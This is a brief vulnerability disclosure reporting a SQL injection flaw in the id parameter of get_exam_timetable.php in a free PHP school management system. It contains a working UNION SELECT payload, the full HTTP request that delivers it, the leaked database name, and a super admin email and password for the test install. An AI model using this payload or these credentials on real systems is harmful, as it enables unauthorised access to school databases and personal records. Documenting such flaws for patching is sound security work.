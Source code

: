 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_exam_timetable.php?id=

Vulnerability location: /school/model/get_exam_timetable.php?id=,id

[+] Payload: /school/model/get_exam_timetable.php?id=-1%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_exam_timetable.php?id=-1%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971008-cf51e05e-4a80-46e9-b4cf-9be9d23f136c.png)
